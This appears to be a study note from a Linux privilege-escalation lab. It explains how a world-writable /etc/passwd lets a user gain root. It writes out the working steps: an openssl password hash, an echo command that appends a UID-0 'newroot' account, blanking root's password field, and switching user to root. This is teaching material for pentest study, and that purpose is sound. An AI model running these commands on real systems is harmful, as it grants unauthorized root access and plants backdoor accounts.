 ```yaml
---
category: Uncategorized
tags: []
---
```

The /etc/passwd historically contained user password hashes.

For backwards compatibility, if the second field of a user row in /etc/passwd contains a password hash, it takes precedent over the hash in /etc /shadow.

If we can write to /etc/passwd, we can easily enter a known password hash for the root user, and then use the su command to switch to the root user.

Alternatively, if we can only append to the file, we can create a new user but assign them the root user ID (0). This works because Linux allows multiple entries for the same user ID, as long as the usernames are different.

The root account in /etc/passwd is usually configured like this:

`root:x:0:0:root:/root:/bin/bash`

The “x” in the second field instructs Linux to look for the password hash in the /etc/shadow file.

In some versions of Linux, it is possible to simply delete the “x”, which Linux interprets as the user having no password:

`root::0:0:root:/root:/bin/bash`

```bash - target
./lse.sh -l 1 -i | more
```

![[Pasted image 20211230133209.png]]

1. Check the permissions of the /etc/passwd file:

```bash - target
ls -l /etc/passwd
```

`-rw-r--rw- 1 root root 951 May 13 2017 /etc/passwd`

Note that it is world writable.

```bash - target
echo "newroot:$(openssl passwd password):0:0:root:/root:/bin/bash" >> /etc/passwd
```

or 

2. Generate a password hash for the password “password”

using openssl :

```bash - kali
openssl passwd "password"
```

`L9yLGxncbOROc`

3. Edit the /etc/passwd file and enter the hash in the second field of the root user row:
4. 
> newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash

4. Use the su command to switch to the root user:

```bash - target
su newroot
```

```bash - target
password
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root)

5. Alternatively, append a new row to /etc/passwd to create an alternate root user (e.g. newroot):

```bash
echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```

6. Use the su command to switch to the newroot user:

```bash - target
su newroot
```

```bash - target
password
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root)























